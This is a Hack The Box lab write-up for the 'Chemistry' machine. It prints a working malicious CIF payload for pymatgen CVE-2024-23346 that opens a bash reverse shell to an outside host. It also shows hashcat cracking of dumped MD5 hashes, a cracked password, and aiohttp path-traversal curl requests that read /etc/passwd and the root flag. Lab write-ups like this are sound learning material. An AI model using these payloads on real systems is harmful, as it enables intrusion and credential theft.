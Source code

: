 ```yaml
---
layout: single
title: Chemistry - Hack The Box
excerpt: "Chemistry is an easy-difficulty Linux machine that showcases a Remote Code Execution (RCE) vulnerability in the pymatgen (CVE-2024-23346) Python library by uploading a malicious CIF file to the hosted CIF Analyzer website on the target. After discovering and cracking hashes, we authenticate to the target via SSH as rosa user. For privilege escalation, we exploit a Path Traversal vulnerability that leads to an Arbitrary File Read in a Python library called AioHTTP (CVE-2024-23334) which is used on the web application running internally to read the root flag."
date: 2025-05-11
classes: wide
header:
  teaser: /img2/chemistry.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Malicious CIF File (RCE)
  - SQLite Database File Enumeration
  - Cracking Hashes
  - aiohttp/3.9.1 Exploitation (CVE-2024.23334) [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.38
```

![](/img2/Pasted%20image%2020250510224641.png)

- Vulnerability and version scan

```bash
nmap -sCV -p22,5000 -vvv 10.10.11.38
```

![](/img2/Pasted%20image%2020250510224746.png)

- Whatweb

```bash
whatweb http://10.10.11.38:5000/
```

![](/img2/Pasted%20image%2020250510224915.png)

## Exploitation

- RCE

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c2 10.10.16.2");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "                          
```

> Test if we have Remote Code Execution

```bash
tcpdump -i tun0 icmp 
```

![](/img2/Pasted%20image%2020250511134609.png)

- Send Reverse Shell

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.16.2/9000 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

![](/img2/Pasted%20image%2020250511140115.png)

## Post-exploitation

- Conect to sqlite3 database

```bash
sqlite3 instance/database.db
```

```sql
.tables
```

![](/img2/Pasted%20image%2020250511141430.png)

```sql
select * from user;
```

![](/img2/Pasted%20image%2020250511141511.png)

- Crack MD5 hashes

```
2861debaf8d99436a10ed6f75a252abf
197865e46b878d9e74a0346b6d59886a
63ed86ee9f624c7b14f1d4f43dc251a5
02fcf7cfc10adc37959fb21f06c6b467
3dec299e06f7ed187bac06bd3b670ab2
9ad48828b0955513f7cf0f7f6510c8f8
6845c17d298d95aa942127bdad2ceb9b
c3601ad2286a4293868ec2a4bc606ba3
a4aa55e816205dc0389591c9f82f43bb
6cad48078d0241cca9a7b322ecd073b3
4af70c80b68267012ecdac9a7e916d18
4e5d71f53fdd2eabdbabb233113b5dc0
9347f9724ca083b17e39555c36fd9007
6896ba7b11a62cacffbdaded457c6d92
098f6bcd4621d373cade4e832627b4f6
```

```bash
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

![](/img2/Pasted%20image%2020250511141638.png)

- Pivoting 

```bash
su rosa
```

> unicorniosrosados

- aiohttp 3.9.1 LFI (CVE-2024-23334)

```bash
ss -nltp
```

![](/img2/Pasted%20image%2020250511142721.png)

```bash
curl -I 127.0.0.1:8080
```

![](/img2/Pasted%20image%2020250511142759.png)

```bash
curl 127.0.0.1:8080/assets/../../../../../../../../../../../../../../../../../../../../../etc/passwd --path-as-is
```

![](/img2/Pasted%20image%2020250511143529.png)

```bash
curl 127.0.0.1:8080/assets/../../../../../../../../../../../../../../../../../../../../../root/root.txt --path-as-is
```

![](/img2/Pasted%20image%2020250511143622.png)